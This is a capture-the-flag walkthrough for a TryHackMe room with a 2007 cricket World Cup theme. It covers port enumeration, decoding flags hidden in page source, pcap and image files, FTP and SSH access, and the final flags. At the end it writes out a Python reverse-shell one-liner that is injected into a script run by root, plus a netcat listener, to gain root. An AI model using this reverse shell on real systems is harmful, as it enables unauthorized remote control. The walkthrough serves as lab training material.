 ```yaml
---
title: WorldCup2020 CTF WalkThrough
permalink: /CTF/worldcupctf
layout: page
tags: TryHackMe
---
```

# WorldCup CTF Walkthrough
# ![front](/images/worldcup2020/front.png)
[https://tryhackme.com/room/worldcup2020ctf](https://tryhackme.com/room/worldcup2020ctf)
## Open Ports:
```
nmap -T4 -A $IP
```
* 21 - **ftp**
* 22 - **ssh**
* 80 - **http**

## Enumeration
### Port 80(*http*):
* In source of home page found 2 flags:
	* flag1/1{VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF}
	* flag1/2{8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==}
* On combinig the **TEXT** of both the flags i.e. *flag1/1 & flag1/2*
```
VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==
```
* we get a **Base64** encoded text which on decoding :
	* **TIMETOREWIND-2007WORLDCUP_00110010 00111001 00101110**
* Taking the "2007worldcup.html" adding to the **URL**
* Looking at the **Source** of the new page we get:
	* flag2{uggcf://jjj.lbhghor.pbz/jngpu?i=55wULbbFtZb(00111000 00110101 00110000)}
* The **TEXT** of flag2 looks like encoded with *ROT13* so on decoding we get:
	* https://www.youtube.com/watch?v=55jHYooSgMo
* On directory bruteforcing we find:
	* 2 main files are found **2007.exe & 2007.txt** 
	* For *2007.exe* first we need to change the extension to *.pdf*
	* Using peepdf tool we can get our flag.
	```
	python peedpf.py -fil 2007.pdf
	extract js > flag3.pdf
	cat flag.pdf
	```
	* Inside the flag.pdf file we get : flag3{my world ashes to ashes good time bad time - 00110010 01010011 00100000}
	* for txt file **"2007.txt"** inside directory y/u/v/r/a/j
	 * It contains hints to some file named **712** which has the communication between the players.
* Now adding /712.pcapng to the **URL**
	* a *pcap* file is downloaded.
* Open the **712.pcapng** file in **WireShark**
	* filter the http protocol
	* follow HTTP stream and then download the **dhoni.jpg** form the panel.
* Look at the *metadata* of the jpg file
```
 exiftool dhoni.jpg
```
* We get the first  half of the flag : flag4{cGFzc3dvcmRfY29uc2lzdF9vZl90d29fd29yZHNfc2Vjb25kd29yZ
* Now looking at the *hexvalue* of the file
```
hexeditor dhoni.jpg
```
* At the bottom we get the second half of the flag: F9pc19NU0RIT05JX2ZpbmQtMXN0PyAwMDExMDAxMSAwMDExMDAwMSAwMDEwMTExMA==}


### Port 21(*FTP*)
* found Anonymoous login in **FTP**
	* found *zip* file name  **treasure.zip** *(passwd protected)*(
			* Using *flag3 & on decoding(Base64) flag4* we the hints for the zip file's passowrd : **andrewflintoffmsdhoni**
	* *flag.txt.txt* is extracted 
	* This has the text encoded on **BrainFuck**
	* On decoding we get flag5{seventh bowler to take 500 wickets in Test cricket knows about ...ssssssssshhhh 00110000 00110010 00110111 }

### Port 22(*SSH*)
* Every flag has some binary text at its end.
* On combinig all the binary together 
```
00110010 00111001 00101110 00111000 00110101 00110000 00110010 01010011 00100000 00110011 00110001 00101110 00110000 00110010 00110111
```
* Decoding the binary to ASCII we get some co-ordinates : **----------**
	* Search in google for the location 
		* we find the stadium **"kingsmead"** (passwd)
* Using the hint form **flag5** *{seventh bowler to take 500 wickets in Test cricket knows about}* 
	* On google serach we find **stuartbroad** (username)
* login into ssh
```
ssh stuartbroad@$IP
```
* Inside ssh we find a hidden file named *.helloWorld.sh* 
	* Inside the bash script we find a command *whoami* executed and written to /Desktop/Users.txt
* On read the Users.txt file
```
cat Desktop/test.txt
```
* We see root by which we understand that the file is being execuated by **root**
* Adding a one liner reverse shell to the script
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Open a netcat session on your host device.
```
nc -lvnp 1234
```
* Wait for a minute.....
* Now in the netcat session you are the root user which has the finalfalg:

#### flag6{A trophy carries dust.Memories last forever}

